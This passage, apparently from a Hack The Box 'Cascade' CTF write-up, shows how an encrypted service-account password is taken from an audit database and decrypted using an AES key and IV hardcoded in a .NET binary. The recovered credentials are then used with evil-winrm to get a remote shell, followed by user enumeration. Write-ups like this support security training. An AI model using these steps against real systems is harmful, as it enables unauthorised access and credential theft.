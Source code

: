 I identified two files I wanted to take a look at for now:
* `\DB\Audit.db`
* `RunAudit.bat`
	* This just executes `CascAudit` with `Audit.db` as a parameter

### Audit.db

This is an SQLite database and it has some very interesting data in the `Ldap` table.

![[cascade1.png]]

`ArkSvc:BQO5l5Kj9MdErXx6Q6AGOw==`

Trying to decode that Base64 string produces nothing but jibberish (again), so it's likely encrypted. Maybe we'll have to go back and take a closer look at `CascAudit.exe` to see if there's any clues to decrypting it.

### CascAudit.exe

Viewing the executable in dnSpy, we see an interesting tidbit of code:

```C#
password = Crypto.DecryptString(encryptedString, "c4scadek3y654321");
```

We then look at the `CascCrypto.dll` dependency, and find the `DecryptString` function. It has another helpful few tidbits for us:

```C#
aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
aes.Mode = CipherMode.CBC
```

Looks like we're using AES CBC, and now have the key and IV. Let's use good ol' Cyber Chef and decrypt our password.

![[cascade3.png]]

And now we've got a new set of credentials: `ArkSvc:w3lc0meFr31nd`

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ evil-winrm -i 10.129.145.225 -u ArkSvc -p 'w3lc0meFr31nd'        

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

## Shell as ArkSvc

### Enumeration

```PowerShell
*Evil-WinRM* PS C:\Users\arksvc\Documents> net user arksvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 4:18:20 PM
Password expires             Never
Password changeable          1/9/2020 4:18:20 PM
Password required            Yes
```